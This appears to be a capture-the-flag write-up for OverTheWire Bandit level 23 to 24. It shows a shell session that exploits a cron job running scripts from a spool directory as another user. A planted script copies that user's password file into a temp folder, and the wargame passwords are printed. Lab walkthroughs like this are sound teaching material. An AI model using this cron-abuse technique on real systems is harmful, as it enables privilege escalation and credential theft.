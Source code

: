 # Bandit Level 23 → Level 24

## 🧠 Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)

---

## 🔐 Credentials

- **Username:** `bandit23`
- **Host:** `bandit.labs.overthewire.org`
- **Port:** `2220`
- **Password:** `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

---

## 🖥️ Commands Used

```bash
bandit23@bandit:/etc/cron.d$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls -l
total 28
-rw-r--r-- 1 root root 123 Apr 10 14:16 clean_tmp
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit22
-rw-r--r-- 1 root root 122 Apr 10 14:23 cronjob_bandit23
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
-rwx------ 1 root root  52 Apr 10 14:24 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat

bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

#bandit23@bandit:/etc/cron.d$ ls /etc      this will show you many folders incloding bandit_pass

bandit23@bandit:/etc/cron.d$ mktemp -d /tmp/amro.XXX
/tmp/amro.Cml

bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/amro.Cml
bandit23@bandit:/etc/cron.d$ cd /tmp/amro.Cml
bandit23@bandit:/tmp/amro.Cml$ nano copy_pass.sh
# #!/bin/bash
# cat /etc/bandit_pass/bandit24 > /tmp/amro.Cml/pass24

bandit23@bandit:/tmp/amro.Cml$ chmod 777 copy_pass.sh

bandit23@bandit:/tmp/amro.Cml$ cp copy_pass.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/amro.Cml$ date
Wed Apr 23 07:37:51 PM UTC 2025
bandit23@bandit:/tmp/amro.Cml$ ls
copy_pass.sh

bandit23@bandit:/tmp/amro.Cml$ date
Wed Apr 23 07:38:02 PM UTC 2025
bandit23@bandit:/tmp/amro.Cml$ ls
copy_pass.sh  pass24
bandit23@bandit:/tmp/amro.Cml$ cat pass24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8


```
___

## 💡 Tips
make an executable script inside an executable tmp folder "this script copies the pass of the level to this folder again whithin a new file" 
copy this file to the location where every file is executed
then wait less than 60 seconds and look at the pass

note: both the file you create and the folder that will recieve the pass should be in executable format
___

## 📤 Output
```bash
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

